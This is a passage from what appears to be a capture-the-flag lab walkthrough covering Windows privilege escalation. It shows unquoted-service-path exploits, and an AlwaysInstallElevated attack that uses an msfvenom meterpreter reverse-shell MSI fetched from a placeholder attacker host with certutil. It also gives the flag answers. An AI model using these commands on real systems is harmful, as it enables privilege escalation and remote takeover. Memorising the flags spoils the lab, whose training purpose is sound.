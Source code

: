 ```powershell
sc qc BackupManager
# Path: C:\Program Files\Backup Manager\Service\backup.exe

# Create exploit
copy cmd.exe "C:\Program Files\Backup.exe"

sc stop BackupManager
sc start BackupManager

type C:\ws_unquoted2.txt
```

**Why:** Backup services often run with high privileges, making them valuable targets.

---

## FLAG 12: Unquoted Service Path 3 (35 points - Medium)
**Location:** Unquoted Service Path 3  
**Flag:** FLAG{NINETALES43035416}

### Attack Method: Remote Support Tool Exploitation

```powershell
sc qc RemoteSupportAgent
# Path: C:\Program Files (x86)\Remote Support Tool\Agent\agent.exe

# Exploit
echo "type C:\ws_unquoted3.txt" > "C:\Program Files (x86)\Remote.bat"

sc stop RemoteSupportAgent
sc start RemoteSupportAgent

type C:\ws_unquoted3.txt
```

**Why:** Remote support tools are common on workstations and often misconfigured.

---

## FLAG 13: AlwaysInstallElevated (40 points - Medium)
**Location:** AlwaysInstallElevated  
**Flag:** FLAG{WIGGLYTUFF69905375}

### Attack Method: MSI Privilege Escalation

```powershell
# Verify vulnerability
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# From Kali, create malicious MSI
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$ATTACKER_IP LPORT=4444 -f msi -o exploit.msi

# Transfer and execute
certutil -urlcache -f http://$ATTACKER_IP/exploit.msi exploit.msi
msiexec /quiet /qn /i exploit.msi

# As SYSTEM, read flag
type C:\Users\Administrator\Desktop\msi_privesc_flag.txt
```
